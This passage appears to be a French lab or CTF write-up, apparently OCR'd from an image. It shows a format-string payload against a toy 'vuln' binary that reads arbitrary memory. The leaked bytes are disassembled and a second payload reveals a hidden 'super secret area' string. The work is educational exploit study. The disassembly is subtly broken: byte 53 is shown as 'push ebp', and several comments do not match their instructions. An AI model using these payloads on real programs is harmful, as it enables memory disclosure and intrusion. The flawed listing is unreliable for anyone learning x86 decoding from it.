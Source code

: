 ```console
oj@hell:~$ ./vuln $'\x90\x84\x04\x08'B%130\$08s | hexdump -C
00000000  74 65 72 6d 69 6e 61 74  65 64 3d 30 78 38 30 34  |terminated=0x804|
00000010  38 34 37 63 2c 20 73 65  63 72 65 74 3d 30 78 38  |847c, secret=0x8|
00000020  30 34 38 34 39 30 2c 20  26 70 74 72 32 66 3d 30  |048490, &ptr2f=0|
00000030  78 62 66 66 66 66 63 64  63 0a 73 68 65 6c 6c 63  |xbffffcdc.shellc|
00000040  6f 64 65 20 61 64 64 72  3d 28 6e 69 6c 29 0a 23  |ode addr=(nil).#|
00000050  73 74 61 72 74 20 61 3d  31 2c 20 62 3d 32 2c 20  |start a=1, b=2, |
00000060  63 3d 33 20 2d 20 78 3d  30 78 62 66 66 66 66 63  |c=3 - x=0xbffffc|
00000070  64 38 2c 20 79 3d 30 78  62 66 66 66 66 63 64 34  |d8, y=0xbffffcd4|
00000080  2c 20 7a 3d 30 78 62 66  66 66 66 63 64 30 0a 90  |, z=0xbffffcd0..|
00000090  84 04 08 42 55 89 e5 83  ec 18 c7 04 24 81 86 04  |...BU.......$...|
000000a0  08 e8 be fe ff ff c9 c3  55 89 e5 53 83 e4 f0 83  |........U..S....|
000000b0  ec 40 c7 44 24 28 01 0a  23 65 6e 64 20 20 61 3d  |.@.D$(..#end  a=|
000000c0  31 2c 20 62 3d 32 2c 20  63 3d 33 20 2d 20 78 3d  |1, b=2, c=3 - x=|
000000d0  30 78 62 66 66 66 66 63  64 38 2c 20 79 3d 30 78  |0xbffffcd8, y=0x|
000000e0  62 66 66 66 66 63 64 34  2c 20 7a 3d 30 78 62 66  |bffffcd4, z=0xbf|
000000f0  66 66 66 63 64 30 0a 50  72 6f 67 72 61 6d 20 74  |fffcd0.Program t|
00000100  65 72 6d 69 6e 61 74 65  64 20 77 69 74 68 20 73  |erminated with s|
00000110  75 63 63 65 73 73 0a 0a                           |uccess..|
00000118
```

Je copie les octets extraits (de `55` à `01`) et je les colle [sur un désassembleur en ligne](http://www.onlinedisassembler.com/odaweb/), j'obtiens :  

```nasm
.data:0x00000000    55                push   ebp
.data:0x00000001    89e5              mov    ebp,esp 
.data:0x00000003    83ec18            sub    esp,0x18
.data:0x00000006    c7042481860408    mov    DWORD PTR [esp],0x8048681 
.data:0x0000000d    e8befeffff        call   func_fffffed0   ; char* dst = arg[0]
.data:0x00000012    c9                leave
.data:0x00000013    c3                ret
.data:0x00000014    55                push   ebp             ; dst[i] = c
.data:0x00000015    89e5              mov    ebp,esp 
.data:0x00000017    53                push   ebp 
.data:0x00000018    83e4f0            and    esp,0xfffffff0  ; i++
.data:0x0000001b    83ec40            sub    esp,0x40        ; while (c != 0)
.data:0x0000001e    c7                .byte 0xc7
.data:0x0000001f    44                inc    esp
.data:0x00000020    2428              and    al,0x28
.data:0x00000022    01                .byte 0x1
```

Jetons un œil à l'adresse `0x8048681` qui est poussée sur la pile :  

```console
oj@hell:~$ ./vuln $'\x81\x86\x04\x08'B%130\$08s
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
�Bsuper secret area

#end  a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```
